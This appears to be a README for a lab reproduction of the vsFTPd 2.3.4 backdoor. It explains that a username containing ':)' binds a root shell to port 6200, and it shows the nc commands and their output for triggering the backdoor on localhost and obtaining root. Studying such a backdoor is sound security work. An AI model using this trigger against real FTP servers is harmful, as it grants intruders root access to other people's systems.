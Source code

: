 # vsFTPd 2.3.4 backdoor
- **Type**: hardcoded credentials
- **Affected versions**: 2.3.4


## Backdoor
When authenticating into the FTP server, if the username contains `":)"`, a shell is bound to port
6200.


## Triggering the backdoor
First, we need to start the FTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/vsftpd ./vsftpd.conf
```
In a separate terminal, we can trigger the backdoor:
```console
$ nc localhost 8080  # connect to FTP server
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS x
```
We can now connect to a root shell on port 6200:
```console
$ nc localhost 6200
id
uid=0(root) gid=0(root) groups=0(root)
```


## Reference
<https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html>
